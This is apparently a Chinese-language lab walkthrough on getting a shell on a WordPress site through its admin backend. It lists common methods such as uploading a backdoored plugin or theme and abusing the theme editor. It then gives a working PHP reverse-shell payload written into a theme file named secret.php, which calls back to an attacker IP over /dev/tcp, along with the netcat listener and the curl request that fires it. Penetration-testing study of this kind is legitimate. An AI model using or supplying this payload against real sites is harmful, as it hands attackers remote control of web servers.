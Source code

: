 
wordpress 后台常见的 getshell 办法有:

1. 主题插件上传 - 上传恶意代码或后门的 wordpress 插件或主题。这是最常见的 getshell 方式。
2. XMLRPC 攻击 - XMLRPC 是 wordpress 的远程调用接口,有漏洞可利用上传后门。
3. XSS 漏洞 - 利用 wordpress 的 XSS 漏洞插入恶意 iframe 或脚本,上传后门。
4. 主题编辑器 - 某些 wordpress 主题带有在线代码编辑器,可以上传后门利用编辑器执行恶意代码。
5. 活动插件 - wordpress 的某些活动插件,如签到插件,可以上传后门。



需要注意有写入权限才可以反弹shell。



```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.125.133/4444 0>&1'");?>
```

在 secret.php 文件写入反弹shell

![image-20230511150837373](./assets/image-20230511150837373.png)



kali 开启监听：

```
sudo nc -lvnp 4444
```



访问 `secret.php` 文件即可 获取到 shell  

```
curl http://192.168.125.142/wordpress/wp-content/themes/twentynineteen/secret.php
```





![image-20230511151737935](./assets/image-20230511151737935.png)
